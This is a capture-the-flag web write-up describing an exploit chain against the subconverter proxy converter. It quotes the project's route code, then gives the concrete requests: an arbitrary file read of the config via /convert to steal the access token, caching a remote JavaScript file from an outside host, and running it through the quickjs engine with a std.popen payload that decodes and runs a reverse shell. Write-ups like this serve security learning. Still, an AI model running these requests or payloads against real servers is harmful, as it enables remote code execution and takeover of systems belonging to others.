 # Web (subconverter) Write Up by @L3mon 

The title gives an `open source proxy subscription converter`: [https://github.com/tindy2013/subconverter]
it is a C++ project    

To get the source code, first look for the route and check the authentication logic  

```c++
/*
webServer.append_response("GET", "/", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
{
return "subconverter " VERSION " backend\n";
});
*/

webServer.append_response("GET", "/version", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        return "subconverter " VERSION " backend\n";
    });

webServer.append_response("GET", "/refreshrules", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(global.accessToken.size())
        {
            std::string token = getUrlArg(request.argument, "token");
            if(token != global.accessToken)
            {
                response.status_code = 403;
                return "Forbidden\n";
            }
        }
        refreshRulesets(global.customRulesets, global.rulesetsContent);
        return "done\n";
    });

webServer.append_response("GET", "/readconf", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(global.accessToken.size())
        {
            std::string token = getUrlArg(request.argument, "token");
            if(token != global.accessToken)
            {
                response.status_code = 403;
                return "Forbidden\n";
            }
        }
        readConf();
        if(!global.updateRulesetOnRequest)
            refreshRulesets(global.customRulesets, global.rulesetsContent);
        return "done\n";
    });

webServer.append_response("POST", "/updateconf", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(global.accessToken.size())
        {
            std::string token = getUrlArg(request.argument, "token");
            if(token != global.accessToken)
            {
                response.status_code = 403;
                return "Forbidden\n";
            }
        }
        std::string type = getUrlArg(request.argument, "type");
        if(type == "form")
            fileWrite(global.prefPath, getFormData(request.postdata), true);
        else if(type == "direct")
            fileWrite(global.prefPath, request.postdata, true);
        else
        {
            response.status_code = 501;
            return "Not Implemented\n";
        }

        readConf();
        if(!global.updateRulesetOnRequest)
            refreshRulesets(global.customRulesets, global.rulesetsContent);
        return "done\n";
    });

webServer.append_response("GET", "/flushcache", "text/plain", [](RESPONSE_CALLBACK_ARGS) -> std::string
    {
        if(getUrlArg(request.argument, "token") != global.accessToken)
        {
            response.status_code = 403;
            return "Forbidden";
        }
        flushCache();
        return "done";
    });

webServer.append_response("GET", "/sub", "text/plain;charset=utf-8", subconverter);

webServer.append_response("GET", "/sub2clashr", "text/plain;charset=utf-8", simpleToClashR);

webServer.append_response("GET", "/surge2clash", "text/plain;charset=utf-8", surgeConfToClash);

webServer.append_response("GET", "/getruleset", "text/plain;charset=utf-8", getRuleset);

webServer.append_response("GET", "/getprofile", "text/plain;charset=utf-8", getProfile);

webServer.append_response("GET", "/qx-script", "text/plain;charset=utf-8", getScript);

webServer.append_response("GET", "/qx-rewrite", "text/plain;charset=utf-8", getRewriteRemote);

webServer.append_response("GET", "/render", "text/plain;charset=utf-8", renderTemplate);

webServer.append_response("GET", "/convert", "text/plain;charset=utf-8", getConvertedRuleset);

if(!global.APIMode)
{
webServer.append_response("GET", "/get", "text/plain;charset=utf-8", [](RESPONSE_CALLBACK_ARGS) -> std::string
{
std::string url = urlDecode(getUrlArg(request.argument, "url"));
return webGet(url, "");
});

webServer.append_response("GET", "/getlocal", "text/plain;charset=utf-8", [](RESPONSE_CALLBACK_ARGS) -> std::string
{
return fileGet(urlDecode(getUrlArg(request.argument, "path")));
});
} 
```

obviously the token parameter is used for authentication of some routes Among them, the /version route can get the current version to visit It is found that the code given in the title is the f9713b4 branch version It is an unreleased latest version, it seems to be a 0day Re-pull the code to start auditing the latest version 

## How To Get RCE ? 

The project has a built-in script engine called quickjs :

Tracing the call found that the script engine is called when the profile is converted and authentication is required
The URL satisfies script: at the beginning to enter the branch
When reading the script, the fileGet function is used to read the file and only ordinary files can be read
Conditions for using this point: authentication + writing to a file

Continue to view other eval calls 
![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661081022735-751a676a-6f50-4289-97e0-89e5b6ea489f.png#clientId=u53fbcb21-0ef7-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=534&id=u542126ba&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=667&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71524&status=done&style=none&taskId=u8394ba25-b5f5-4633-b229-e695f238f86&title=&width=864)

This script engine is also used in scheduled tasks
The difference here is that the fetchFile function is used here 
![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661081233533-78e163d9-758a-4d65-9da0-53e99fb239c2.png#clientId=u53fbcb21-0ef7-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=716&id=uaafa1de0&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=895&originWidth=1094&originalType=binary&ratio=1&rotation=0&showTitle=false&size=97150&status=done&style=none&taskId=uc1c16d7e-380d-4913-8196-5a573c22b0b)

The script path of the scheduled task uses the configuration items in the configuration file Conditions of use: 
modify the configuration file 

## File Write : 
The code below webGet caught my attention this function implements a simple cache function for caching remote subscriptions
The file was written during the caching process The request will be cached only when cache_ttl>0 After some searching, I found a cache route with added ttl

![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661081707756-f8cd69b3-e5ee-4079-b3a5-c03ff58af883.png#clientId=uab9fe332-309a-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=129&id=uef3c2060&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=161&originWidth=1168&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23160&status=done&style=none&taskId=ua93f87c5-5c74-4355-914e-fd8a2de588a&title=&width=934.4)


so we need to Visit `/convert?url= http://1.1.1.1:8000/1.js` to initiate a cache request 

## arbitrary file read :
The convert route calls the fetchFile function to get the file content. This function can read local files.
After convert reads the file, it only performs a simple regular replacement on the file. Therefore, we can use this route to read any file. 

and we Successfully read the configuration file in the current directory (in fact, this project still has a bunch of files to read point x)

Authentication token received 

## Construct quickjs script :

Find the function list corresponding to the library introduced in the code in the official documentation Soon a common command execution function popen was found in the std library 
![image](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661083415735-e4fc67a6-a02e-4103-9033-d63df0d3a8e7.png#clientId=uab9fe332-309a-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=613&id=u9a21dd19&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=766&originWidth=1792&originalType=binary&ratio=1&rotation=0&showTitle=false&size=124373&status=done&style=none&taskId=u5e9c34f1-0560-4af6-afd8-e9766ea7552&title=&width=1433.6)

Construct a rebound shell directly 
```js
std.popen("bash -c 'echo payloadb64 |base64 -d|bash'", "r");
```

## RCE Chain :

1. Read Configuration File to get the authentication token 
2. cache the remote file to write the file using `/convert?url= http://1.1.1.1:8000/1.js`
3. Calculate the cache file name and enter the token to trigger the subscription conversion execution script
`/sub?token=K5unAFg0wPO1j&target=clash&url=script:cache/c290fb8309721db5f8622eb278635c1a`
4. get shell uwu 

![uwu](https://cdn.nlark.com/yuque/0/2022/png/25577536/1661083723485-882bdb34-42ea-419b-b2ce-e23bcca457d1.png#clientId=uab9fe332-309a-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=545&id=ub01e4e63&margin=%5Bobject%20Object%5D&name=%E5%9B%BE%E7%89%87.png&originHeight=681&originWidth=809&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33074&status=done&style=none&taskId=u584032ce-1daf-4760-9b54-dc45f873f93&title=&width=647.2)

# Conclusion 

Read the documentation of the library used in the code, and then find the corresponding function to construct the script and always ask masters for advice. 

> with love by l3mon